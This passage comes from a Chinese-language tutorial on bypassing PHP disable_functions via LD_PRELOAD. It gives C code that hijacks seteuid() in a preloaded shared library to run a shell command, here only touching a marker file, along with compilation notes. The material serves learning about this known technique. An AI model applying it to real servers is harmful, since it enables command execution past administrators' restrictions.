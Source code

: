 ```
readelf -Ws /usr/sbin/sendmail
```

从这些库函数中选择一个合适的即可，这里选取seteuid()来进行重写

![1567008304446](通过LD_PRELOAD绕过disable_functions.assets/1567008304446.png)

hack.c

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h> 

void payload() {
        system("touch /var/www/html/success");
}   

int  seteuid() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

如果sateuid被调用，那么会加载payload函数，执行命令。

在编译恶意.so文件时，需要注意编译成共享对象：

> 如果想创建一个动态链接库，可以使用 GCC 的-shared选项。输入文件可以是源文件、汇编文件或者目标文件。另外还得结合-fPIC选项。-fPIC 选项作用于编译阶段，告诉编译器产生与位置无关代码（Position-Independent Code）；这样一来，产生的代码中就没有绝对地址了，全部使用相对地址，所以代码可以被加载器加载到内存的任意位置，都可以正确的执行。这正是共享库所要求的，共享库被加载时，在内存的位置不是固定的。
>
> 你要根据目标架构编译成不同版本，在 x64 的环境中编译，若不带编译选项则默认为 x64，若要编译成 x86 架构需要加上 -m32 选项。
